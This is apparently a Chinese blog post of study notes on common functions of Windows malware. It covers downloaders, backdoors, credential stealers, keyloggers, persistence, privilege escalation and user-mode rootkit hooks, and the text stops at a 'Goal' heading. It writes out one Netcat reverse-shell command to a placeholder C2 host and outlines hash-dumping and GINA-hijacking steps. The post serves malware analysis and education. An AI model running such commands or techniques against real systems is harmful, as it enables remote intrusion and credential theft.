 ```yaml
---
title: Windows恶意代码常见功能
date: 2019-10-30 14:27:50
tags: windows病毒分析
---
```


# 知识引入

**下载器和启动器：**下载器通常和漏洞利用(exploit)结合在一起，常用API：URLDownloadtoFileA和WinExec。而启动器使用来启动恶意代码的程序

**后门backdoor：**提供给攻击者远程访问受害主机的通道，功能丰富。

* Netcat反向shell：在受害者机器上执行反向主动连接到C2服务器特定端口的命令"nc C2_ip  port -e cmd.exe"，"-e"指定连接建立后运行的成程序并且该程序的标准输入和输出都会被绑定在套接字上

* Windows反向shell：前面说过，使用CreateProcess来创建cmd.exe程序的进程，并将标准输入、输出、错误流都绑定到和远程C2服务器建立连接的套接字上。

  还有一种方法涉及一个套接字、两个管道、两个线程，用来加解密传输过程中的数据，后面文章详细解释

**远程控制工具RAT：**远程管理一台或者多台计算机，存在丰富交互行为

**僵尸网络：**被感染主机的集合。有单一控制服务器来控制，数量级别比较大，不存在复杂交互，并且同一时间被控制

**登陆凭证窃密器：**

* (XP)GINA拦截：微软图形识别与登陆验证界面，允许第三方添加一些代码来自定义登陆过程。Gina在msgina.dll中实现，这个DLL在用户登录过程中由Winlogon可执行文件加载，恶意代码可以修改注册表项"Software\Microsoft\Windows NT\CurrentVersion\Winlogon\GinaDLL"来在Winlogon加载msgina.dll之前加载恶意第三方DLL实现类似中间人的角色，由于要拦截对gina的请求，需要实现msgina.dll的导出接口，导出很多Wlx开头的15+函数

* 口令HASH转储：通过抓取登陆凭证HASH来进行暴力破解或者Pass-the-Hash工具（没有明文的情况下通过LM或者NTLM哈希来通过远程主机的验证来获取访问权限）。pwdump通过注入DLL到lsass.exe中来获取权限访问更多API来获取哈希。导入"samsrv.dll"和"advapi.dll"访问SAM和获取没被lsass.exe导入的函数。SamIConnect链接SAM，SamQueryInformationUser来提取hash，SystemFunction025和SystemFunction027用来解密哈希

* 键盘记录：有内核层(Rootkit)和用户层的记录器。用户层通常使用SetWindowsHookEx安装挂钩或者轮询使用GetAsyncKeyState(识别一个按键是否被按下)、GetForegroundWindow(识别但钱聚焦的前端窗口)检查按键状态

  **主机驻留：**

* 修改注册表：自启动注册表、svchost DLL

* 感染系统二进制文件。插入恶意代码到新建的空节中

* DLL顺序加载劫持：非KnowDLL保护的DLL程序加载要安装顺序加载从加载应用程序的目录到当前目录再到系统目录以及之后的目录这个次序开始寻找和加载。我们利用这种顺序加载，将恶意DLL放在前面的目录就行

**提权：**用户即使是管理员权限也没有任意访问系统一切资源的权限，例如在远程进程中调用TerminateProcess、CreateRemoteThread函数。所以我们需要提升权限，途径是：通过调用AdjustTokenPrivilege来调整进程的访问令牌来提升权限到SeDebugPrivilege，默认只能赋给管理员。

* 实现过程：OpenProcessToken来获取进程访问令牌，GetCurrentProcess获取进程句柄，将句柄以及期望获取的权限作为参数传给LookupPrivilegeValueA，获取本地唯一标识符LUID，标识特定权限。接着将访问令牌和LUID传给AdjustTokenPrivileges来调整权限

**用户态Rootkit：**在用户态通过Hook技术来隐藏恶意代码的进程和痕迹

* IAT Hook：修改导入地址表IAT或者导出地址表EAT
* Inline Hook：修改代码指令，覆盖被Hook函数开始的几个指令为跳转到恶意代码出的跳转指令

  # 目标
